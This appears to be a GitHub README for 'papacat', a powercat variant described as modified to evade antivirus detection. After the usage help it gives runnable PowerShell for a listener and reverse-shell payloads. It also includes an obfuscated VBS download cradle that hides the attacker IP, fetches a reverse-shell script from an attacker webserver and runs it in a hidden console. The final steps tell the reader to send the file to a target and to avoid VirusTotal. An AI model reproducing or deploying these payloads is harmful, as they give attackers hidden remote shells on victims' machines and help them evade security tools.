      powercat - Netcat, The Powershell Version
     Github Repository: https://github.com/besimorhino/powercat
     
     This script attempts to implement the features of netcat in a powershell
     script. It also contains extra features such as built-in relays, execute
     powershell, and a dnscat2 client. 
     
     Redpill papacat version its a modified version of powercat to bypass AV detection.
     
     
     Usage: papacat [-c or -l] [-p port] [options]
     -c  <ip>        Client Mode. Provide the IP of the system you wish to connect to.
                     If you are using -dns, specify the DNS Server to send queries to.
            
     -l              Listen Mode. Start a listener on the port specified by -p.
  
     -p  <port>      Port. The port to connect to, or the port to listen on.
  
     -e  <proc>      Execute. Specify the name of the process to start.
  
     -ep             Execute Powershell. Start a pseudo powershell session. You can
                     declare variables and execute commands, but if you try to enter
                     another shell (nslookup, netsh, cmd, etc.) the shell will hang.
            
     -t  <int>       Timeout. The number of seconds to wait before giving up on listening or
                     connecting. Default: 60
            
     -i  <input>     Input. Provide data to be sent down the pipe as soon as a connection is
                     established. Used for moving files. You can provide the path to a file,
                     a byte array object, or a string. You can also pipe any of those into
                     papacat, like 'aaaaaa' | papacat -c 10.1.1.1 -p 80
            
     -o  <type>      Output. Specify how papacat should return information to the console.
                     Valid options are 'Bytes', 'String', or 'Host'. Default is 'Host'.
            
     -of <path>      Output File.  Specify the path to a file to write output to.
            
     -d              Disconnect. papacat will disconnect after the connection is established
                     and the input from -i is sent. Used for scanning.
            
     -rep            Repeater. papacat will continually restart after it is disconnected.
                     Used for setting up a persistent server.
                  
     -g              Generate Payload.  Returns a script as a string which will execute the
                     papacat with the options you have specified. -i, -d, and -rep will not
                     be incorporated.
                  
     -ge             Generate Encoded Payload. Does the same as -g, but returns a string which
                     can be executed in this way: powershell -E <encoded string>
     -h              Print this help message.
     
     Examples:
     Listen on port 8000 and print the output to the console.
         papacat -l -p 8000 -v
  
     Connect to 10.1.1.1 port 443, send a shell, and enable verbosity.
         papacat -c 10.1.1.1 -p 443 -e cmd -v
  
     Send a file to 10.1.1.15 port 8000.
         papacat -c 10.1.1.15 -p 8000 -i C:\inputfile
  
     Write the data sent to the local listener on port 4444 to C:\outfile
         papacat -l -p 4444 -of C:\outfile
  
     Listen on port 8000 and repeatedly server a powershell shell.
         papacat -l -p 8000 -ep -rep -v

<br />

# papacat Manual Execution

<br />

#### Download cmdlet
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/hacking-material-books/master/papacat.ps1" -OutFile "papacat.ps1"
```

<br />

#### handler (listenner)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -l -p 666 -v
```

#### Cmd Client (payload)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -e cmd.exe -p 666 -v
```

#### powershell Client (payload)
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -ep -p 666 -v
```

---

<br /><br />

# Automation - Obfuscation ( @Meterpeter )

<br />

#### [update.vbs] download crandle
```vbscript
' Author: @r00t-3xp10it (ssa)
' Application: papacat download crandle
' Description:
'   This VBS will download Trigger.ps1 (rev tcp shell) from attacker webserver
'   imports module and executes module in a hidden console. ( background )
' ---

dIm Char,Cmd,Layback
Char="@!COLOMBO@!"+":007:VIRIATO@!"+"NAVIGATOR@!"
Layback=rEpLaCe(Char, "@!", ""):Cmd=rEpLaCe(Layback, ":007:", "")

set ObjConsole = CreateObject("Wscript.Shell")
ObjConsole.Run("powershell.exe cd $Env:TMP;iwr -Uri http://"+Cmd+"/Trigger.ps1 -OutFile Trigger.ps1;Import-Module -Name .\Trigger.ps1 -Force;Trigger-c Server@Local@host -e cmd.exe -p 666"), 0
}
```

<br />

#### Download cmdlet
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/hacking-material-books/master/papacat.ps1" -OutFile "papacat.ps1"
```

#### Generate - Cmd Client (payload) Obfucated
```powershell
Import-Module -Name .\papacat.ps1 -Force
papacat -c 192.168.1.72 -e cmd.exe -p 666 -g > Trigger.ps1
```

<br />

## The next section requires using terminal to execute commands ...
- Get Local host adress to config the crandle
- replace <b><i>8080</i></b> by <b><i>apache\http.server</i></b> port (webserver)
```powershell
$Local_Host = ((ipconfig | findstr [0-9].\.)[0]).Split()[-1]
$FirstRange = $Local_Host[0,1,2,3,4] -join ''                          # 192.1   - COLOMBO
$SeconRange = $Local_Host[5,6,7,8] -join ''                            # 68.1    - VIRIATO
$TrithRange = $Local_Host[9,10,11,12,13,14,15,16,17,18,19,20] -join '' #.72
$LastRanges = "$TrithRange" + ":" + "8080" -join ''                    #.72:8080 - NAVIGATOR
```
- Replace the attacker ip addr (obfuscated\split) on vbs crandle
```powershell
((Get-Content -Path "update.vbs" -Raw) -Replace "VIRIATO","$SeconRange")|Set-Content -Path "update.vbs"
((Get-Content -Path "update.vbs" -Raw) -Replace "COLOMBO","$FirstRange ")|Set-Content -Path "update.vbs"
((Get-Content -Path "update.vbs" -Raw) -Replace "NAVIGATOR","$LastRanges")|Set-Content -Path "update.vbs" 
((Get-Content -Path "update.vbs" -Raw) -Replace "Server@Local@host","$Local_Host")|Set-Content -Path "update.vbs" 
``` 

<br />

- start the handler `Import-Module -Name .\papacat.ps1 -Force;papacat -l -p 666`
- Store update.vbs + copy Trigger.ps1 on attacker webserver (port 8080)
- send update.vbs url to target to trigger the client download (Trigger.ps1)
- execute update.vbs on target machine to get the connection back

![papacat](https://user-images.githubusercontent.com/23490060/155600050-539eeac6-26ee-46e0-a8eb-061daac5e38c.png)

<br /><br />

#### URL
https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1<br />
https://www.ired.team/offensive-security/defense-evasion/bypassing-ids-signatures-with-simple-reverse-shells

# Final Notes
Dont Test this on VirusTotal or similar websites ...
